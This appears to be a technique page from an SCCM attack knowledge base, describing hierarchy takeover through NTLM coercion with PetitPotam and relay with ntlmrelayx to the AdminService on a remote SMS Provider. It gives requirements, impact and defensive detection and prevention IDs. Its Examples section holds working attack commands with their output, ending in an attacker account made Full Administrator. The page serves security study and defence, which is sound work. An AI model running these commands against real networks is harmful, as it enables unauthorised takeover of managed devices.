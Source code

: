 # TAKEOVER-5

## Description
Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server 
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role
- Relay target domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

> **Note:** Extended Protection for Authentication (EPA) is not currently supported by the AdminService (as of March 2024), so cannot be configured to prevent relay to the AdminService.

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx` (currently, Garrett Foster's [fork/pull request here](https://github.com/fortra/impacket/pull/1593) must be used until it is merged into impacket), targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
